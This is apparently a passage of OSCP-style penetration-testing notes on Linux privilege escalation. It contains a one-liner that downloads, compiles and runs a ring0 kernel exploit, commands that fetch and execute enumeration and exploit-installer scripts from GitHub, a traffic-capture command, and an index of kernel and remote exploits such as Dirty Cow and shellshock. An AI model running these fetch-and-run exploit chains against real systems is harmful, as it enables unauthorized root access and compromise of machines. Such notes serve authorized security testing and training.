 Ring0 kernel exploit for 2.3/2.4

```text
wget http://downloads.securityfocus.com/vulnerabilities/exploits/36038-6.c; gcc 36038-6.c -m32 -o ring0; chmod +x ring0; ./ring0
```

#### Inspect web traffic

```text
tcpdump tcp port 80 -w output.pcap -i eth0
```

## Scripts to run

The following script runs exploit suggester and automatically downloads and executes suggested exploits:

Useful script to run for initial scan - displays info on box

```text
wget https://raw.githubusercontent.com/bngr/OSCP-Scripts/master/bangenum.sh
sed -i -e 's/\r$//' bangenum.sh
./bangenum.sh
```

### Automatically downloads and compiles exploit

```text
wget https://raw.githubusercontent.com/wwong99/pentest-notes/master/scripts/xploit_installer.py
```

```text
USAGE: xploit_installer.py <exploit id>
```

### Linux Remote Exploits

```text
47: shellshock
48: heartbleed
```

### Linux Local Exploits

```text
49: linux-exploit-suggester
50: unix_privesc_check
51: kernel 2.4.x / 2.6.x (sock_sendpage 1)
52: kernel 2.4 / 2.6 (sock_sendpage 2)
53: kernel < 2.6.22 (ftruncate)
54: kernel < 2.6.34 (cap_sys_admin)
55: kernel 2.6.27 < 2.6.36 (compat)
56: kernel < 2.6.36-rc1 (can bcm)
57: kernel <= 2.6.36-rc8 (rds protocol)
58: *kernel < 2.6.36.2 (half nelson)
59: *kernel <= 2.6.37 (full nelson)
60: kernel 2.6 (udev)
61: kernel 3.13 (sgid)
62: kernel 3.13.0 < 3.19 (overlayfs 1)
63: kernel 3.14.5 (libfutex)
64: kernel 2.6.39 <= 3.2.2 (mempodipper)
65: *kernel 2.6.28 / 3.0 (alpha-omega)
66: kernel 2.6.22 < 3.9 (Dirty Cow)
67: kernel 3.7.6 (msr)
68: *kernel < 3.8.9 (perf_swevent_init)
69: kernel <= 4.3.3 (overlayfs 2)
70: kernel 4.3.3 (overlayfs 3)
71: kernel 4.4.0 (af_packet)
```